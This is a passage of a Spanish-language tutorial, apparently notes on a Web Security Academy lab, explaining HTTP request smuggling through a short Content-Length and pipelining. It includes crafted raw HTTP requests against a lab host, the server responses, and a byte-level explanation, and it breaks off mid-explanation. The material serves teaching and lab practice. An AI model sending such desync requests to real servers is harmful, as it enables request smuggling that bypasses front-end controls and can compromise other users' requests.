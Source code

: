 ## Content-Length más corto: cuando lo que sobra rompe la siguiente petición

Para este ejemplo usaremos dos peticiones enviadas en la misma conexión.

Sigamos profundizando en Pipelining

Request 1:

```http
POST /resources/images/avatarDefault.svg HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: Keep-alive\r\n
Content-Length: 28\r\n
\r\n
POST /X HTTP/1.1\r\n
X-Ignore: X
```

Request 2:
```http
GET / HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
\r\n
```
¿Qué esperamos?
Que la segunda petición falle.
Nos fijaremos en su respuesta:

Response 1: 
```http
HTTP/1.1 200 OK
Content-Type: image/svg+xml
...
```

Response 2:
```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Keep-Alive: timeout=10
Content-Length: 47

"Frontend only accepts methods GET, POST, HEAD"
```

¿Por qué pasa esto?
Gracias al pipelining.
El servidor lee exactamente 28 bytes para la primera petición. Eso incluye `X-Ignore: ` pero se queda justo antes de la “`X`” final.

Lo que sobra se queda en el buffer y se usa como inicio de la siguiente petición, quedando así:


Request 1: 
```http
POST /resources/images/avatarDefault.svg HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: Keep-alive\r\n
Content-Length: 28\r\n
\r\n
POST /X HTTP/1.1\r\n
X-Ignore:
```
